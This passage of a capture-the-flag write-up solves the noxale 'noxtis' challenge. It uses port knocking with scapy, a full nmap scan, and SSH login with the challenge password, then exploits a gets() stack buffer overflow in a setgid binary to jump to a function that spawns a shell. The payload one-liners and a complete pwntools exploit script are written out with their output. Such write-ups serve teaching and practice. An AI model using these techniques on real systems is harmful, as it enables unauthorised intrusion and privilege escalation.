   19   6.718092    10.0.0.10 → 3.16.9.89    TCP 66 2565 → 8200 [SYN] Seq=0 Win=8192 Len=0 MSS=1460 WS=256 SACK_PERM=1 2565 8200
   20   6.913198    3.16.9.89 → 10.0.0.10    TCP 66 8200 → 2565 [SYN, ACK] Seq=0 Ack=1 Win=26883 Len=0 MSS=1360 SACK_PERM=1 WS=128 8200 2565
```

The file name, and the contents, both strongly hint that we are dealing with port knocking. It looks like in order to get an ACK from the server, we need to first send a SYN to a sequence of three ports: 1234, 1337, 7777. The other cases (e.g. 2510, 2031, 2000) didn't work - the server sent a RST response instead.

Let's test this theory:
```python
from scapy.all import *
from socket import *
conf.verb = 0

IP_ADDR = '3.16.9.89'

ports = [1234, 1337, 7777]
for port in ports:
    print "[*] Knocking on", port
    ip = IP(dst=IP_ADDR)
    src_port = 20
    SYN = ip/TCP(sport=src_port, dport=port, flags="S", window=2048, options=[('MSS',1460)], seq=0)
    send(SYN)

s = socket(AF_INET, SOCK_STREAM)
s.connect((IP_ADDR, 8200))
data = s.recv(1024)
print data
```

Output:
```console
[*] Knocking on  1234
[*] Knocking on  1337
[*] Knocking on  7777
https://drive.google.com/file/d/10Uxdu7bNFzjhdf2g-jANho1hy1iqwQJR/view
```

On we go, downloading a new file from the Google Drive link above:

```console
root@kali:/media/sf_CTFs/noxtis/audio# file audio.wav
audio.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, mono 44100 Hz
```

The audio from the file is meaningless, so we search for meaning elsewhere. For example, the spectrogram. We can use a GUI application such as Audacity to view the spectrogram, or generate a PNG from the command line using `sox`:
```console
sox audio.wav  -n spectrogram
```

The result is a file called `spectrogram.png` (by default):



But what can we do with this information? After a week where no participant was able to progress past this point, a hint came from the creators:

> Services are wonderful. Did you know that you can change their default port?

The next step is appearantly extensive port scanning using `nmap`:
```console
root@kali:~# nmap -vv -sS -sU -p- -sV -T4 -sC darthvaderfans.noxale.com 3.16.9.89
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-14 18:52 IST
NSE: Loaded 148 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:53
Completed NSE at 18:53, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:53
Completed NSE at 18:53, 0.00s elapsed
Initiating Ping Scan at 18:53
Scanning 2 hosts [4 ports/host]
Completed Ping Scan at 18:53, 0.01s elapsed (2 total hosts)
Initiating Parallel DNS resolution of 2 hosts. at 18:53
Completed Parallel DNS resolution of 2 hosts. at 18:53, 4.02s elapsed
Initiating SYN Stealth Scan at 18:53
Scanning 2 hosts [65535 ports/host]
Discovered open port 22/tcp on 3.16.9.89
Discovered open port 22/tcp on 18.220.135.102
Discovered open port 80/tcp on 18.220.135.102
SYN Stealth Scan Timing: About 0.96% done
SYN Stealth Scan Timing: About 1.96% done; ETC: 19:44 (0:50:51 remaining)
SYN Stealth Scan Timing: About 3.16% done; ETC: 19:42 (0:48:02 remaining)
SYN Stealth Scan Timing: About 6.99% done; ETC: 19:41 (0:45:27 remaining)
SYN Stealth Scan Timing: About 10.42% done; ETC: 19:50 (0:51:01 remaining)
Discovered open port 1337/tcp on 18.220.135.102
SYN Stealth Scan Timing: About 15.56% done; ETC: 19:49 (0:48:01 remaining)
SYN Stealth Scan Timing: About 22.39% done; ETC: 19:51 (0:45:07 remaining)
SYN Stealth Scan Timing: About 26.67% done; ETC: 19:50 (0:42:10 remaining)
SYN Stealth Scan Timing: About 31.72% done; ETC: 19:50 (0:39:06 remaining)
SYN Stealth Scan Timing: About 36.85% done; ETC: 19:50 (0:36:04 remaining)
SYN Stealth Scan Timing: About 34.13% done; ETC: 19:56 (0:41:58 remaining)
SYN Stealth Scan Timing: About 40.47% done; ETC: 19:58 (0:38:44 remaining)
SYN Stealth Scan Timing: About 46.02% done; ETC: 19:58 (0:35:24 remaining)
SYN Stealth Scan Timing: About 50.83% done; ETC: 19:58 (0:32:01 remaining)
SYN Stealth Scan Timing: About 55.96% done; ETC: 19:58 (0:28:45 remaining)
SYN Stealth Scan Timing: About 61.67% done; ETC: 19:59 (0:25:21 remaining)
SYN Stealth Scan Timing: About 67.00% done; ETC: 19:59 (0:21:53 remaining)
SYN Stealth Scan Timing: About 62.32% done; ETC: 20:05 (0:27:09 remaining)
SYN Stealth Scan Timing: About 67.91% done; ETC: 20:06 (0:23:31 remaining)
SYN Stealth Scan Timing: About 73.23% done; ETC: 20:06 (0:19:42 remaining)
SYN Stealth Scan Timing: About 78.35% done; ETC: 20:06 (0:15:57 remaining)
SYN Stealth Scan Timing: About 83.38% done; ETC: 20:06 (0:12:15 remaining)
SYN Stealth Scan Timing: About 88.63% done; ETC: 20:06 (0:08:23 remaining)
SYN Stealth Scan Timing: About 93.68% done; ETC: 20:07 (0:04:41 remaining)
Completed SYN Stealth Scan against 18.220.135.102 in 4335.06s (1 host left)
SYN Stealth Scan Timing: About 98.70% done; ETC: 20:07 (0:00:58 remaining)
Completed SYN Stealth Scan at 20:08, 4529.19s elapsed (131070 total ports)
```

What's this?
```
Discovered open port 1337/tcp on 18.220.135.102
```

Let's try to connect:
```console
root@kali:/media/sf_CTFs/noxtis/ssh# nc darthvaderfans.noxale.com 1337
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6
```

So this is an SSH service, let's try to connect with the username and password from the audio file:
```console
root@kali:/media/sf_CTFs/noxtis/ssh# ssh Nahman@darthvaderfans.noxale.com -p 1337
Nahman@darthvaderfans.noxale.com's password:
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.14.94-89.73.amzn2.x86_64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Feb 14 18:54:36 2019 from ***
Nahman@c70a485c41b8:~$ ls
authme  authme.c  cant_touch_this  topsecret
Nahman@c70a485c41b8:~$ ls -al
total 20
drwxr-xr-x 1 root        root          76 Feb  2 18:53 .
drwxr-xr-x 1 root        root          39 Feb  2 18:53 ..
-r-xr-sr-x 1 DarthNahman DarthNahman 7520 Jan 30 21:11 authme
-r--r--r-- 1 DarthNahman DarthNahman  910 Jan 30 21:11 authme.c
-r--r----- 1 DarthNahman DarthNahman   21 Jan 30 21:11 cant_touch_this
-r--r----- 1 DarthNahman DarthNahman  441 Feb  2 18:50 topsecret
Nahman@c70a485c41b8:~$ cat cant_touch_this
cat: cant_touch_this: Permission denied
Nahman@c70a485c41b8:~$ cat topsecret
cat: topsecret: Permission denied
Nahman@c70a485c41b8:~$ ./authme
Please insert the secret password:
asdf
Incorrect password!
```

Let's copy what we can to the local environment, e.g.:
```console
root@kali:/media/sf_CTFs/noxtis/ssh# scp -P 1337 Nahman@darthvaderfans.noxale.com:authme .
Nahman@darthvaderfans.noxale.com's password:
authme                                               100% 7520    30.5KB/s   00:00
```

We get an execuable and a source file:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define PASSWORD "CYBERCYBERCYBER"
#define BUFFER_SIZE 64

void getPassword();
void randomFunc();

int authenticated = 0;

int main()
{
	FILE* f = NULL;
	char buffer[BUFFER_SIZE] = {0};

	printf("Please insert the secret password:\n");
	getPassword();
	
	if(authenticated)
	{
		f = fopen("cant_touch_this", "r");
		
		if(!f)
		{
			printf("Error! Please contact the operators\n");
			exit(0);
		}
		
		fread(buffer, sizeof(char), BUFFER_SIZE - 1, f);
		fclose(f);
		printf("%s\n", buffer);
	}	

	return 0;
}

void getPassword()
{
	char buffer[BUFFER_SIZE] = {0};
	
	gets(buffer);

	if(!strncmp(buffer, PASSWORD, BUFFER_SIZE))
	{
		printf("Correct password!\n");
		authenticated = 1;
	}
	else
		printf("Incorrect password!\n");
}

void randomFunc()
{
	gid_t gid;
	gid = getegid();
	setresgid(gid, gid, gid);
	system("/bin/sh");
}
```

So now we know the password, let's try it:
```console
Nahman@c70a485c41b8:~$ ./authme
Please insert the secret password:
CYBERCYBERCYBER
Correct password!
Put your content here
```

Not very helpful. What does seem helpful is the buffer overflow in `getPassword`, where `gets` does not check the limit of the 64-byte buffer, allowing us to override the return address and jump to another location. That other location should be randomFunc which will spawn us a shell.

Let's use the `cyclic` tool to identify the exact offset of the return address, and `objdump` to find the address of `randomFunc`:
```console
root@kali:/media/sf_CTFs/noxtis/ssh# cyclic 100 | ./authme
Please insert the secret password:
Incorrect password!
Segmentation fault
root@kali:/media/sf_CTFs/noxtis/ssh# dmesg | grep authme
[ 8766.103359] authme[2360]: segfault at 61616174 ip 0000000061616174 sp 00000000ffce7040 error 14 in libc-2.28.so[f7d8c000+19000]
root@kali:/media/sf_CTFs/noxtis/ssh# cyclic -l 0x61616174
76
root@kali:/media/sf_CTFs/noxtis/ssh# objdump -d ./authme | grep randomFunc
08048708 <randomFunc>:
```

Therefore, our input should be:
```console
python -c "print(('A' * 76) + '\x08\x87\x04\x08')"
```

But if we try this, we fail:
```console
root@kali:/media/sf_CTFs/noxtis/ssh# python -c "print(('A' * 76) + '\x08\x87\x04\x08')" | ./authme
Please insert the secret password:
Incorrect password!
Segmentation fault
```

The reason is that the stdin of the /bin/sh is the stdin of our program which is the output of our python program. The shell will try to read input data from there and then exit when no more input is available. 

So, in order to overcome that, we can use [this](https://security.stackexchange.com/questions/73878/program-exiting-after-executing-int-0x80-instruction-when-running-shellcode) neat trick:
```console
Nahman@c70a485c41b8:~$ python -c "print(('A' * 76) + '\x08\x87\x04\x08')" > /tmp/exploit.txt
Nahman@c70a485c41b8:~$ cat /tmp/exploit.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Nahman@c70a485c41b8:~$ cat /tmp/exploit.txt - | ./authme
```

The `-` tells `cat` to allow interactive input via stdin after printing the content of the file.

An even shorter version of this, which does not require writing to a file, is:
```console
cat <(python -c "print(('A' * 76) + '\x08\x87\x04\x08')") - | ./authme
```

Another way is to just use `pwntools`:
```python
from pwn import *
import argparse
import os

EXE_PATH        = "./authme"
SSH_SERVER      = "darthvaderfans.noxale.com"
SSH_USER        = "Nahman"
SSH_PASSWORD    = "PowerOfTheDarkSide"
SSH_PORT        = 1337

def get_process(is_ssh = False):
    params = {"argv": EXE_PATH, "cwd": os.path.dirname(EXE_PATH)}
    if is_ssh:
        s = ssh(host=SSH_SERVER, user=SSH_USER, password = SSH_PASSWORD, port = SSH_PORT)
        p = s.process(**params)
    else:
        p = process(**params)
    return p

def send_payload(proc, payload):
    proc.sendlineafter("Please insert the secret password:", payload)

def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
	os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")

	proc = process(EXE_PATH)
	payload = cyclic(100)
	send_payload(proc, payload)
	proc.wait()
	offset = cyclic_find(proc.corefile.eip)
	log.info("Overflow offset: {}".format(offset))
	return offset


parser = argparse.ArgumentParser()
parser.add_argument("-s", "--ssh", help="Connect via SSH", action="store_true")
args = parser.parse_args()

e = ELF(EXE_PATH)
log.info("Address of randomFunc(): 0x{:02X}".format(e.symbols["randomFunc"]))
offset = get_overflow_offset()

p = get_process(args.ssh)
payload = fit({offset: e.symbols["randomFunc"]})
send_payload(p, payload)
p.interactive()
```

Output:
```console
root@kali:/media/sf_CTFs/noxtis/ssh# python exploit.py -s
[*] '/media/sf_CTFs/noxtis/ssh/authme'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Address of randomFunc(): 0x8048708
[+] Starting local process './authme': pid 1883
[*] Process './authme' stopped with exit code -11 (SIGSEGV) (pid 1883)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/noxtis/ssh/core.1883'
    Arch:      i386-32-little
    EIP:       0x61616174
    ESP:       0xffd6eb20
    Exe:       '/media/sf_CTFs/noxtis/ssh/authme' (0x8048000)
    Fault:     0x61616174
[*] Overflow offset: 76
[+] Connecting to darthvaderfans.noxale.com on port 1337: Done
[*] Nahman@darthvaderfans.noxale.com:
    Distro    Unknown
    OS:       linux
    Arch:     amd64
    Version:  4.14.94
    ASLR:     Enabled
[+] Starting remote process './authme' on darthvaderfans.noxale.com: pid 6046
[*] Switching to interactive mode

Incorrect password!
$ $ cat topsecret
You used the magic powers of the shell with the root permissions and banished Nahman to the realm of QA,
for eternity. The secret intel has been recovered and one of Ruhani's nails was broken in the meni-pedi.

Israel's future has been saved, thanks to you. Congratulations!
https://www.youtube.com/watch?v=04854XqcfCY

Fill this google form for eternal fame and glory (and further communication):
https://goo.gl/forms/P594dcnl8eqgpX1Q2

$ $ exit
$
[*] Got EOF while reading in interactive
$
[*] Stopped remote process 'authme' on darthvaderfans.noxale.com (pid 6046)
[*] Got EOF while sending in interactive
```

And we're done. Thumbs-up for noxale for a fun CTF!